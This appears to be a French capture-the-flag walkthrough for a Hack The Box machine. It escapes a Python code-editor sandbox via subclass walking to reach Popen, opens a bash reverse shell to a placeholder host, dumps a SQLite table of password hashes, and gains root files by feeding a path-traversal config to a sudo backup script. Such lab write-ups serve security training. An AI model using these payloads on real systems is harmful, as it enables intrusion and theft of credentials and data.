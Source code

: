 ## Enumération

- **IP**
```
10.10.11.62
```

- **Nmap**
```
nmap -sC -sV -A 10.10.11.62
```

![[nmap.png]]On trouve deux port ouverts dont le port **5000** avec le service **http**. On va donc essayer d'accéder au site web via : `http://10.10.11.62:5000`

![[code-htb.png]]

On a donc un éditeur de code python. L'application web ne laisse pas faire `import` ou `eval` mais on sait qu'une **application fait echo aux éxceptions**. On peut donc faire sortir une erreur  pour savoir un peu ce qui se passe en dessous:

```
print((()).__class__.__bases__[0].__subclasses__())
```

![[Capture du 2025-06-10 20-26-28.png]]

l a craché un buffet entier de classes. Plus de 400 sous-classes. Quelque part là dedans , on doit chercher le `Popen`. Pourquoi? Parce que Popen vit dans le module de sous-processus, et c'est comme ça qu'on posera les commandes Shell.

Ici, on n'a pas la fonction `.index()` donc on peut faire une recherche. On va donc essayer de détourner la logique du programme jusqu'à une réussite avec des **obfuscations Python

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[100].__name__)
```
!! Echec !!

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[200].__name__)
```
!! Echec !!

```
raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)
```
!! **C'est là que se trouve le Popen** !!

![[popen.png]]


---

## Gain d'accès: 
On va maintenant ouvrir le port **4444** en écoute et attendre une connexion **TCP** avec **Netcat**:
```
nc -lvnp 4444
```

Maintenant que le port 4444 est en écoute, on peut exécuter ce code:
```
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
"bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))
```

Voilà, maintenant on est dans le **bash** de l'app
![[bash_app.png]]

On peut trouver l'**user flag** avec les commandes:
```
cd ..
ls
cat user.txt
```

![[user_flag.png]]

Dans le répertoire **/app/instance**, on peut trouver une base de donnée:

![[database.png]]

On peut accéder à cette base de données avec les commandes:
```
sqlite3 database.db
.tables
SELECT * FROM user
```

![[user_table.png]]

On constate qu'il y 2 utilisateurs avec leurs **user name** et des **mots de passe hashés**

## ssh sur l'utilisateur martin

```
shh martin@10.10.11.62
```

![[ssh_martin.png]]

On va essayer de savoir si **martin** a les droits **root** avec la commande `sudo -l`

![[test_root.png]]

**martin** n'a pas les droits **root** mais on constate qu'il y a un truc intéressant dans **/usr/bin/backy.sh*

Avant d'aller chercher quelque chose dans ce script, on va créer un script **json** permettant à **martin** d'avoir les droits **root**
```
cat > ~/root-steal.json << EOF
> {
>   "destination": "/home/",
>   "multiprocessing": true,
>   "verbose_log": true,
>   "directories_to_archive": [
>     "/home/....//root/"
>   ]
> }
> EOF

```

Une fois le fichier **.json** créer, on va l'exécuter en même temps que **backy.sh**
```
sudo /usr/bin/backy.sh /home/martin/root-steal.json
```

Voici le résultat:
![[exec_backy.png]]

l'exécution de **backy.sh** a aussi créer un fichier nommé `code_home_.._root_2025_June.tar.bz2` qui se trouve dans le répertoire **/home**

![[code_home.png]]

On va maintenant extraire ce fichier vers `/home/martin/root_dump`

```
tar -xvjf code_home_.._root_2025_June.tar.bz2 -C /home/martin/root_dump
```

Grâce à l'extraction de cette commande, un fichier **root.txt** est apparu dans le répertoire `/home/martin/root_dump/root`

![[root_txt.png]]

Et voila !!!!

`